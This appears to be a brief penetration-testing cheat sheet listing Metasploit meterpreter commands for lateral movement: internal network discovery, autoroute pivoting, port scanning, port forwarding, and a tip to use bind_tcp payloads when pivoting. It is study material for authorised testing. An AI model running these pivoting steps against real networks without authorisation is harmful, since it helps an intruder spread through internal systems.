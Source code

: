 ## Lateral Movement
* `meterpreter > ipconfig` - not the IP addresses the target has. Focus on the IP different than the external IP
* `meterpreter > run arp_scanner -r <internal-IP>/<subnet-mask>'
* `meterpreter > run autoroute -s <internal-IP>/<subnet-mask>`
* `meterpreter > background`
* `msf6 > use auxiliary/scanner/portscan/tcp`
* `msf6 auxiliary(scanner/portscan/tcp) > set rhost <target>`

#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
  - `show options` - set rhosts
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
* `meterpreter> portfwd list` - check port forwarding list
* in linux host, run `nmap <local_port>`
##### Notes
* when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
  * use `bind_tcp` payloads 


## Privilege Escalation
